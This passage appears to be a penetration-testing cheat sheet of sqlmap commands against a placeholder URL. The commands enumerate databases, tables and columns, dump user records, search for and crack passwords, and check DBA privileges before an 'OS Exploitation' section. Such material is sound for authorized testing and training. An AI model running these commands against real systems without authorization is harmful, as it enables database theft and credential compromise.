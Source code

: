##### Database Enumeration
```bash
# Basic enumeration
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

# Database discovery
sqlmap -u "http://www.example.com/?id=1" --dbs         # List databases

# Table enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb                    # List tables
sqlmap -u "http://www.example.com/?id=1" -D dbname --tables                    # Tables in specific DB

# Column enumeration
sqlmap -u "http://www.example.com/?id=1" -D dbname -T tablename --columns      # List columns

# Data extraction
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname        # Dump specific columns
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"  # Conditional dump

# Advanced enumeration
sqlmap -u "http://www.example.com/?id=1" --schema      # Complete database schema
sqlmap -u "http://www.example.com/?id=1" --search -T user                      # Search tables by name
sqlmap -u "http://www.example.com/?id=1" --search -C pass                      # Search columns by name
sqlmap -u "http://www.example.com/?id=1" --all --batch                         # Enumerate everything automatically
```

##### Privilege & Security
```bash
# Privilege checks
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba                    # Check DBA privileges

# Password operations
sqlmap -u "http://www.example.com/?id=1" --passwords --batch                   # Enumerate/crack passwords
```

##### OS Exploitation

#### DBA Privilege Verification

**Why Check DBA Privileges?**
- **File operations** require special database privileges
- **DBA status** greatly increases success probability
- **Modern DBMS** restrict file operations for security

**Check DBA Status:**
```bash
# Verify DBA privileges
sqlmap -u "http://www.example.com/?id=1" --is-dba

# Expected outputs:
current user is DBA: True   # ✅ High privileges - file operations likely possible
current user is DBA: False  # ❌ Limited privileges - file operations may fail
```
